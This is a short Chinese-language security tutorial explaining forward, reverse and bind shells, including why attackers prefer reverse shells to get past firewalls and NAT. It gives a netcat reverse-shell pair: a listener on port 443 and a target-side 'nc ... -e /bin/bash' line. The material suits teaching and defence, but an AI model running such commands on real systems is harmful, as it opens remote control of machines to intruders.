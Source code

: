 # Shell

# 概念

反弹 shell，就是攻击机监听在某个 TCP/UDP 端口为服务端，目标机主动发起请求到攻击机监听的端口，并将其命令行的输入输出转到攻击机。

### **正向连接**

假设我们攻击了一台机器，打开了该机器的一个端口，攻击者在自己的机器去连接目标机器（目标 ip：目标机器端口），这是比较常规的形式，我们叫做正向连接。远程桌面、web 服务、ssh、telnet 等等都是正向连接。

### **反向连接**

那么为什么要用反弹 shell 呢？

反弹 shell 通常适用于如下几种情况：

* 目标机因防火墙受限，目标机器只能发送请求，不能接收请求。
* 目标机端口被占用。
* 目标机位于局域网，或 IP 会动态变化，攻击机无法直接连接。
* 对于病毒，木马，受害者什么时候能中招，对方的网络环境是什么样的，什么时候开关机，都是未知的。
* ......
对于以上几种情况，我们是无法利用正向连接的，要用反向连接。

---

## 反向 shell

在目标系统上启动一个Shell，它主动发起连接到攻击者预先设定的IP地址和端口号，从而绕过目标系统可能存在的防火墙或网络限制。

**应用场景：**当目标系统无法主动接收外部连接（比如，处于NAT后面或有严格的防火墙规则）时，使用Reverse Shell可以绕过这些限制，因为它是从目标系统发起的外向连接。

* **方法：**使用工具设置一个监听器，用于接收连接
* **优点：**可以绕过防火墙规则；更容易执行和调试
* **缺点：**需要配置自己的网络以接收 shell

执行以下代码建立连接：


```Bash
# 攻击机上代码
sudo nc -lvnp 443
# 目标上
nc <span style="color: #C7D5F6"><local_ip> <port></span> -e /bin/bash
```



## 绑定 shell

在目标系统上打开一个监听的Shell，等待外部连接。这通常是在目标系统的一个开放端口上进行的。

**应用场景：**当攻击者可以直接访问目标系统的某个开放端口时，使用Bind Shell可以立即建立一个交互式会话。
